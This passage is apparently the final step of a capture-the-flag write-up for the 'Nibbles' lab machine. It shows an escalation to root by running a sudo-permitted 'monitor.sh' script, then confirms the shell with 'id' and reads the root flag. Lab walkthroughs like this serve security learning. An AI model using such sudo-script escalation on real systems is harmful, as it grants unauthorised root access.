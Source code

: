 Finally, execute the "monitor.sh". It takes time a bit but we can ahieve a root shell.
{% highlight shell %}
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh

sudo: unable to resolve host Nibbles: Connection timed out
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

root.txt is in the directory "/root".
{% highlight shell %}
root@Nibbles:~# cat root.txt
cat root.txt
b6d745c0dfb6457c55591efc898ef88c
{% endhighlight %}
